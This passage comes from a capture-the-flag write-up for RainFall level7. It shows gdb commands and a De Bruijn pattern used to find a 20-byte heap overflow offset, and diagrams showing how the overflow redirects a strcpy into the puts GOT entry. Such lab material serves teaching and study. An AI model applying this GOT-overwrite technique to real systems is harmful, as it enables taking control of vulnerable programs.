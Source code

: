 ### 12. Calculating the Overflow Offset
```bash
# Test overflow distance with De Bruijn pattern
level7@RainFall:~$ python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8A"' > /tmp/pattern

level7@RainFall:~$ gdb ./level7
(gdb) run $(cat /tmp/pattern) BBBB
Starting program: /home/user/level7/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8A BBBB

Program received signal SIGSEGV, Segmentation fault.
0xb7eb1922 in ?? ()
```

**Different Crash Pattern:**
- **Not crashing on instruction fetch** like previous levels
- **Crashing during memory access** - suggests we're corrupting a pointer used for memory access
- **This confirms**: We're corrupting data2->buffer pointer, causing second strcpy to write to invalid address

### 13. Finding the Exact Offset Through Analysis
```
Heap Layout Analysis:
buffer1: 8 bytes allocated
Heap metadata: ~8 bytes (typical malloc overhead)  
data2 structure: 4 bytes (id) + 4 bytes (buffer pointer)

Distance calculation:
buffer1 start → data2->buffer field = 8 + 8 + 4 = 20 bytes

Verification:
20 bytes of padding + target address should corrupt data2->buffer pointer
```

### 14. Memory Layout During Exploitation

**Normal Heap State:**
```
┌─────────────────────┐ ← data1: {id=1, buffer_ptr}
│ data1 structure     │
├─────────────────────┤ ← buffer1 (8 bytes)
│ buffer1             │   ← argv[1] destination
├─────────────────────┤ ← data2: {id=2, buffer_ptr}  
│ data2 structure     │   buffer_ptr points to buffer2
├─────────────────────┤ ← buffer2 (8 bytes)
│ buffer2             │   ← argv[2] destination (normal)
└─────────────────────┘
```

**Exploited Heap State:**
```
┌─────────────────────┐ ← data1: {id=1, buffer_ptr}
│ data1 structure     │
├─────────────────────┤ ← buffer1 (overflow source)
│ AAAAAAAAAAAAAAAAAAA │   ← 20 bytes of padding
├─────────────────────┤ ← data2: {id=2, CORRUPTED}
│ data2 structure     │   buffer_ptr now = 0x08049928 (puts GOT!)
├─────────────────────┤ ← buffer2 (unused)
│ buffer2             │   
└─────────────────────┘

Result: Second strcpy writes argv[2] to puts() GOT entry instead of buffer2!
```
